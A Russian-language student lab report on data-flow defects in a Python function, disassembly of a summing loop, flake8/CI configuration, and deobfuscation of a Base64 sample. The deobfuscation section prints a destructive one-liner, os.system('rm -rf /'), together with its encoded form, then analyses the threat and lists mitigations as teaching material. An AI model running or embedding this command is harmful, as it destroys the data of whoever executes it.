

# Отчёт по практическому занятию №7

**Анализ потоков данных, дизассемблирование и линтинг**

Дисциплина: Моделирование и анализ программного обеспечения.
Автор: [@marik777h](https://github.com/marik777h).
Дата: 20 октября 2026 года.

**Ссылка для сдачи: [Pull Request №7](https://github.com/marik777h/lab1-comprehensive--/pull/7).**
Ветка: feature/practice-7. Целевая ветка: develop.
Практика выполнена в том же публичном репозитории, что и лабораторная №1.

## 1. Анализ потоков данных DFA

### 1.1. Таблица Def–Use цепочек

Нумерация относится к исходному фрагменту без пустых строк:

```text
 1  def process_transaction(user_id, amount, db_connection):
 2      log_entry = "Start processing"
 3      if amount > 0:
 4          status = "approved"
 5          balance = get_balance(user_id)
 6          new_balance = balance - amount
 7          update_balance(user_id, new_balance)
 8      log_entry = "Transaction finished with status: " + status
 9      file = open("audit_log.txt", "w")
10      file.write(log_entry)
11      return status
```

| Переменная | Def | Use | Вывод |
| --- | --- | --- | --- |
| log_entry | 2, 8 | 10 | Цепочка 8→10; значение из строки 2 не читается |
| status | 4, только при amount > 0 | 8, 11 | На пути amount <= 0 до use в 8 нет def |
| balance | 5 | 6 | Цепочка 5→6 на положительной ветви |
| new_balance | 6 | 7 | Цепочка 6→7 на положительной ветви |
| file | 9 | 10 | Цепочка 9→10 есть, освобождения ресурса нет |

Параметры user_id и amount определяются в строке 1. user_id читается
в строках 5 и 7, amount — в строках 3 и 6. db_connection определяется
как параметр, но в исходном коде не используется. Полный анализ:
[`docs/dfa_analysis.md`](docs/dfa_analysis.md).

### 1.2. Выявленные дефекты

**Дефект 1 — неинициализированная переменная.** При amount <= 0
путь 1→2→3→8 пропускает присваивание status в строке 4. Первое чтение
в строке 8 вызывает UnboundLocalError. Строка 11 также содержит чтение,
но на ошибочном пути выполнение до неё не доходит.

**Дефект 2 — мёртвое присваивание.** Значение "Start processing"
записывается в строке 2 и нигде не читается. Строка 8 перезаписывает
log_entry перед его единственным чтением в строке 10. Начальное
присваивание не влияет ни на журнал, ни на возвращаемый результат.

**Дефект 3 — утечка ресурса.** Строка 9 захватывает файл, строка 10
записывает данные, но close() отсутствует. Ни обычный выход, ни исключение
при записи не сопровождаются гарантированным освобождением ресурса.

В исправленной функции status инициализирован до if, log_entry присваивается
один раз, а файл управляется with open(...). Обработка amount <= 0
возвращает pending и не обращается к БД. Вызовы БД переведены на методы
переданного db_connection, чтобы функция не зависела от отсутствующих
в модуле глобальных get_balance и update_balance.

## 2. Дизассемблирование

### 2.1. Восстановленный Python

```python
def sum_one_to_ten():
    total = 0
    i = 1
    while i <= 10:
        total += i
        i += 1
    return total
```

Результат: **55**. Проверка формулой: 10 × 11 / 2 = 55.
Эквивалентная краткая запись: `sum(range(1, 11))`.

### 2.2. Логика ассемблерного фрагмента

Ячейка -4(%rbp) хранит аккумулятор total, -8(%rbp) — счётчик i.
Они инициализируются значениями 0 и 1. jmp .L2 переносит выполнение
к проверке до первой итерации. Тело .L3 прибавляет i к total и увеличивает
i на 1. cmpl $10, -8(%rbp) выставляет флаги сравнения i с 10;
jle .L3 выполняет знаковый переход при i <= 10. Значение 10 включено,
цикл выполняется 10 раз, после чего i=11. Последний movl переносит
накопленную сумму в eax.

AT&T использует порядок «источник, назначение». Суффикс l указывает
32-битные данные; %rbp при этом служит 64-битным базовым адресом.
Детальный разбор инструкций:
[`docs/disassembly_analysis.md`](docs/disassembly_analysis.md).

## 3. Деобфускация

### 3.1. Расшифрованная строка

Исходная Base64-строка:

```text
aW1wb3J0IG9zOyBvcy5zeXN0ZW0oJ3JtIC1yZiAvJyk=
```

Результат декодирования как текст, без выполнения:

```text
import os; os.system('rm -rf /')
```

Для проверки использованы только base64.b64decode(..., validate=True),
decode("utf-8") и вывод строки. exec, eval и оболочечные вызовы
при анализе не использовались.

### 3.2. Анализ угрозы

В исходном образце exec(b) запускает скрытый Python-код. os.system
передаёт оболочке команду rm -rf /: рекурсивное удаление от корня
файловой системы с подавлением обычных запросов подтверждения.
Это попытка уничтожения доступных процессу данных и нарушения работы ОС.

Ущерб зависит от привилегий и окружения. Современный GNU rm по умолчанию
защищает / от рекурсивного удаления, поэтому гарантированное уничтожение
любой системы именно этой строкой утверждать нельзя. Однако запуск
неизвестного кода остаётся критическим риском. Base64 только кодирует
содержимое, не шифрует его и не ограничивает действия программы.

### 3.3. Методы защиты

1. Использовать данные и явные схемы вместо exec/eval для входных строк.
2. Исключить передачу непроверенных строк в os.system и командную оболочку.
3. Проверять AST и зависимости на динамическое исполнение и опасные
   системные вызовы; обычный flake8 не является полноценным security-сканером.
4. Применять минимальные права, изоляцию файловой системы и резервные копии.
5. Анализировать неизвестные образцы статически, не исполняя их содержимое.

Подробности и безопасный пример декодирования:
[`docs/deobfuscation.md`](docs/deobfuscation.md).

## 4. Настройка и прохождение линтера

### 4.1. Настроенные правила и исправленный код

Файл [`.flake8`](.flake8):

```ini
[flake8]
max-line-length = 80
extend-ignore = E203, W503
exclude = .git,__pycache__,docs
extend-exclude = .venv
```

Строки ограничены 80 символами, E203 и W503 дополнительно игнорируются,
служебные каталоги и docs исключены. Дополнительное исключение .venv
сохраняет возможность локальной работы в виртуальном окружении.
Отступы Python — четыре пробела согласно .editorconfig.

Исправленный код: [`src/fixed_transaction.py`](src/fixed_transaction.py).
Помимо трёх обязательных исправлений, используется режим a для сохранения
аудита, явный UTF-8 и разделитель строк. Первые три аргумента сохранены;
необязательный audit_path изолирует файлы тестов. Адаптер БД должен иметь
методы get_balance(user_id) и update_balance(user_id, new_balance).
Ошибки БД и файлов не подавляются. БД и файловый аудит не объявляются
единой атомарной транзакцией.

Пайплайн [`.github/workflows/lint-check.yml`](.github/workflows/lint-check.yml)
имеет имя Linter Check и запускается на pull_request в develop.
Используется Python 3.10, как в задании, и flake8 7.4.1.
Вместо устаревших major-версий Actions из примера взяты закреплённые
по SHA официальные v6; назначение и событие пайплайна сохранены.
Права — contents: read, лимит выполнения — пять минут.

Существующий QA Gates также проверяет код и тесты на Python 3.12.
Локально: `python -m pip install -r requirements-dev.txt`,
затем `python scripts/check.py`.

### 4.2. Pull Request с исправлениями

**[PR №7 — feature/practice-7 → develop](https://github.com/marik777h/lab1-comprehensive--/pull/7)**.
Коммит с кодом и конфигурацией
[`0d63cf8`](https://github.com/marik777h/lab1-comprehensive--/commit/0d63cf832658599695de7eb9d54cfe894e786fd9)
имеет точное сообщение из задания:
`feat: add flake8 config, CI pipeline and fixed transaction code`.
Отчёт и скриншот добавлены последующим документирующим коммитом.
PR оставлен открытым для проверки и сдачи преподавателю.

### 4.3. Скриншот зелёных Checks



На скриншоте показаны реальные проверки этого PR после успешного
прохождения CI для коммита 0d63cf8:
[Linter Check](https://github.com/marik777h/lab1-comprehensive--/actions/runs/39422931690)
и [QA Gates](https://github.com/marik777h/lab1-comprehensive--/actions/runs/39422931281).
Актуальный статус последнего коммита доступен на вкладке
[Checks](https://github.com/marik777h/lab1-comprehensive--/pull/7/checks).

Восемь новых тестов проверяют оба пути условия, обновление баланса,
неизменность предыдущих записей аудита, закрытие настоящего файла,
выход из контекста при ошибке write, ошибки БД и открытия файла,
а также Decimal-суммы. Вместе с прежними тестами: **20 тестовых методов,
47 исполняемых выражений и 22 ветви в src, покрытие 100%**.

## Контрольный список

- [x] Def и use указаны для всех ключевых переменных.
- [x] Объяснены UnboundLocalError, Dead Store и Resource Leak.
- [x] Восстановлен цикл суммы 1–10, результат 55.
- [x] Base64 декодирован как текст; угроза и защита описаны.
- [x] Есть .flake8 и отдельный lint-check.yml для develop.
- [x] Три дефекта исправлены в src/fixed_transaction.py.
- [x] Проверки PR зелёные, скриншот приложен.
- [x] PR создан из feature/practice-7 в develop.

## Источники

Исходные Python- и ассемблерный фрагменты, Base64 и структура отчёта —
приложенная инструкция «Моделирование и анализ ПО Практика 7».
Технические справочники:
[GNU assembler AT&T](https://sourceware.org/binutils/docs/as/i386_002dVariations.html),
[Python base64](https://docs.python.org/3.12/library/base64.html),
[GNU rm](https://www.gnu.org/software/coreutils/manual/html_node/rm-invocation.html).
